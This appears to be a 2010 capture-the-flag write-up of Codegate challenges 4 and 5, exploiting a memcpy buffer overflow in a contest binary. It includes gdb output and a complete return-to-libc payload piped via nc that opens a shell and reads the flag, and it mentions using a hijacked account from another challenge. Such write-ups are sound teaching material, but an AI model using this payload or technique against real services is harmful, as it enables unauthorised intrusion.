 ```yaml
---
title: 'Codegate 2010 online CTF &#8211; Challenge 4 &amp; 5 writeup'
author: longld
layout: post

aktt_notify_twitter:
  - no
tweetbackscheck:
  - 1408358984
shorturls:
  - 'a:4:{s:9:"permalink";s:81:"http://www.vnsecurity.net/2010/03/codegate-2010-online-ctf-challenge-4-5-writeup/";s:7:"tinyurl";s:26:"http://tinyurl.com/yevgbt5";s:4:"isgd";s:18:"http://is.gd/aOugw";s:5:"bitly";s:20:"http://bit.ly/cXsba1";}'
twittercomments:
  - 'a:15:{i:10669477304;s:7:"retweet";i:10576939772;s:7:"retweet";i:10576509003;s:7:"retweet";i:10574391696;s:7:"retweet";i:10574255769;s:7:"retweet";i:10570427157;s:7:"retweet";i:10567867606;s:7:"retweet";i:10566679249;s:7:"retweet";i:10566402877;s:7:"retweet";i:10566331495;s:7:"retweet";i:10566131337;s:7:"retweet";i:10566057902;s:7:"retweet";i:10566052947;s:7:"retweet";i:10565532796;s:7:"retweet";i:10565472354;s:7:"retweet";}'
tweetcount:
  - 15
categories:
  - 'CTF - CLGT Crew'
tags:
  - '2010'
  - aslr
  - CLGT
  - codegate
  - CTF
  - 'CTF - CLGT Crew'
  - return-to-libc
---
```

# Summary

Challenge 4 has a basic buffer overflow vulnerability running on modern Ubuntu Linux with ASLR. Challenge 5 shares the same code as Challenge 4 but added NX protection to make it harder. In challenge 4 we use ret2eax to by pass ASLR and return-to-libc technique to bypass NX in challenge 5 with brute-forcing for execl() libc address. We had to access to the server (hijack account of Challenge #2) to search for execl() address, it&#8217;s weakness of our solution for challenge 5.

# Analysis

Challenge 4 information:

> credentials: ctf4.codegate.org 9000  
> BINARY FILE:  http://ctf.codegate.org/files\____/easy

Challenge 5 information:

> credentials: ctf4.codegate.org 9001  
> BINARY FILE:  http://ctf.codegate.org/files\____/harder

Both &#8220;easy&#8221; and  &#8220;harder&#8221; share the same code which looks like below:

<pre class="brush: cpp; highlight: [17]; title: ; notranslate" title="">int __cdecl main()
{
 size_t n; // [sp+18h] [bp-8h]@1
 char *lineptr; // [sp+1Ch] [bp-4h]@1

 lineptr = 0;
 printf("Input: ");
 fflush(0);
 getline(&lineptr, &n, stdin);
 func(lineptr, n);
 return puts("nThanks. Goodbye");
}

void *__cdecl func(const void *src, size_t n)
{
 char dest[264]; // [sp+10h] [bp-108h]@1
 return memcpy(dest, src, n);
}
</pre>

The traditional BOF at memcpy() in func() with 272 bytes allows us to overwrite the saved EIP to control program execution. Exploit for &#8220;easy&#8221; is obvious, you can find a writeup <a href="http://coma.0x3f.net/uncategorized/codegate2010-ctf-level-4/" target="_blank">here</a>, remain of this post will talk about Challenge 5.

The problem for exploiting &#8216;harder&#8217; is to bypass:

*   ASLR
*   NX protection

We will use return-to-libc technique to overcome that.

# Solution/Exploit

In order to exploit the &#8220;harder&#8221; we have to:

*   Locate address of execl() function in libc
*   Locate address of &#8220;/bin/sh&#8221; somewhere in memory
*   Arrange stack to call execl(&#8220;/bin/sh&#8221;, &#8230;) when return from func()

## Locate address of execl()

Based on our experience in Padocon 2010 pre-qual, we know that random mmap library address will repeat after several run.

<pre>$ gdb harder
(gdb) start
Temporary breakpoint 1, 0x0804850e in main ()
(gdb) p execl
$1 = {&lt;text variable, no debug info&gt;} 0x1a70c0 &lt;execl&gt;
(gdb) quit</pre>

## Locate address of &#8220;/bin/sh&#8221;

There&#8217;s several way to find &#8220;/bin/sh&#8221; pointer according to other contestants discussed in #codegate IRC:

*   Find &#8220;/bin/sh&#8221; address in RO_DATA of libc
*   Put &#8220;/bin/sh&#8221; in our input buffer then find stack address that points to it (address of &#8220;dest&#8221; in func())
*   Put &#8220;/bin/sh&#8221; in our input buffer then re-use &#8220;*lineptr&#8221; (already point to our buffer) remain in stack. This is our method.

Let examine the stack when we&#8217;re in func():

<pre>(gdb) disass func
Dump of assembler code for function func:
0x080484e4 &lt;func+0&gt;:    push   ebp
0x080484e5 &lt;func+1&gt;:    mov    ebp,esp
0x080484e7 &lt;func+3&gt;:    sub    esp,0x118
0x080484ed &lt;func+9&gt;:    mov    eax,DWORD PTR [ebp+0xc]      &lt;-- n
0x080484f0 &lt;func+12&gt;:   mov    DWORD PTR [esp+0x8],eax
0x080484f4 &lt;func+16&gt;:   mov    eax,DWORD PTR [ebp+0x8]      &lt;-- src's address (*lineptr)
0x080484f7 &lt;func+19&gt;:   mov    DWORD PTR [esp+0x4],eax
0x080484fb &lt;func+23&gt;:   lea    eax,[ebp-0x108]              &lt;-- dest's address
0x08048501 &lt;func+29&gt;:   mov    DWORD PTR [esp],eax
0x08048504 &lt;func+32&gt;:   call   0x80483f8 &lt;memcpy@plt&gt;
0x08048509 &lt;func+37&gt;:   leave
0x0804850a &lt;func+38&gt;:   ret
End of assembler dump.

(gdb) b *0x08048504
Breakpoint 1 at 0x8048504
(gdb) r
Starting program: /tmp/harder
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048504 in func ()
(gdb) x/20x $ebp
0xbffff738:     0xbffff768      0x08048568      0x0804b008      0x00000078
                                                [*lineptr] (2)
0xbffff748:     0x00d5b420      0xbffff768      0x00c49345      0x006c2d20
0xbffff758:     0x00000078      0x0804b008      0x08048590      0x00000000
                                [*lineptr] (1)  [garbage str]
0xbffff768:     0xbffff7e8      0x00c30b56      0x00000001      0xbffff814
0xbffff778:     0xbffff81c      0xb7fff858      0xbffff7d0      0xffffffff

(gdb) x/8x 0x0804b008
0x804b008:      0x41414141      0x41414141      0x41414141      0x41414141
0x804b018:      0x41414141      0x41414141      0x41414141      0x41414141</pre>

Address of *lineptr is **0x0804b008** which point to our buffer. There&#8217;s two instances of *lineptr address on stack: (1) returned from getline(), (2) placed before calling func(). The (2) address is useless because it&#8217;s next to ret, the (1) address with next 2 addresses **0&#215;08048590**, **0&#215;00000000** is perfect for execl(). What we need to do is lift the esp to correct address with few ret.

## Arrange buffer & stack

With all the things above, we can craft our buffer as below:

<pre>["/bin/sh" | padding | ret*6 | execl() | "n"]</pre>

This will result on stack when return from func():

<pre>[ret*6 | execl() | 0xdeadbeef | "/bin/sh" | "garbage string" | 0 ]</pre>

## Exploit

<pre>while true; do
 (python -c 'print "/bin/shx00" + "A"*260 + "x75x85x04x08"*6 + "xc0x70x1ax00" + "n"'; cat) | nc ctf4.codegate.org 9001
done
Input:
Input:
Input:

id
uid=1004(harder) gid=1004(harder)
cat /home/harder/flag.txt
e2e4cb6adc9cd761dcde774f84529591  -</pre>

# References

*   <a href="http://neworder.box.sk/newsread.php?newsid=13007" target="_blank">http://neworder.box.sk/newsread.php?newsid=13007</a>
*   <a href="http://0xbeefc0de.org/papers/fc3_bof.txt" target="_blank">http://0xbeefc0de.org/papers/fc3_bof.txt</a>

Keywords: return-to-libc, aslr, esp lifting, codegate 2010